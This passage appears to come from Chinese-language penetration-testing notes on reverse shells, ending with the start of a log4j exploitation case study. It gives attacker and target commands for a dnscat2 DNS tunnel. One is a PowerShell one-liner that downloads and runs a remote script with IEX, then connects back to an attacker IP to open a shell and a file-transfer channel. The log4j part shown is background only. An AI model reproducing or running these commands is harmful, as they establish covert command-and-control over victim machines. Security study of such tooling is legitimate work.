 * 攻击机利用msf，设置监听，运行后，就可以收到Empire反弹回来的Shell。

**Dnscat反弹**

- Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。


- github项目地址：<https://github.com/iagox86/dnscat2>


- 
    攻击机：


~~~bash
ruby dnscat2.rb --dns "domain=[dns服务器域名],host=[攻击机ip]" --no-cache -e open -e open 
~~~

- 
    靶机：


~~~bash
owershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain [dns服务器域名] -DNSServer [攻击机ip]
~~~



## 漏洞利用分析案例

### 0x01 log4j漏洞利用

 2021年12月10日，公布了apache 的 log4j漏洞，影响甚广，引得圈内热闹非凡。

<img src="漏洞利用\log4j (2).png" alt="log4j (2)" style="zoom: 50%;" />

### 原理

log4j为java技术栈中，常用的日志框架。在编写程序时，常常需要在日志中输出程序中的一些变量进行查看，测试程序的正确性。
log4j的强大之处在于，除了可以输出程序中的变量，它还提供了Lookups接口，可以用来输出更多内容。感兴趣的同学可以进入该网址了解：<https://logging.apache.org/log4j/2.x/manual/lookups.html>
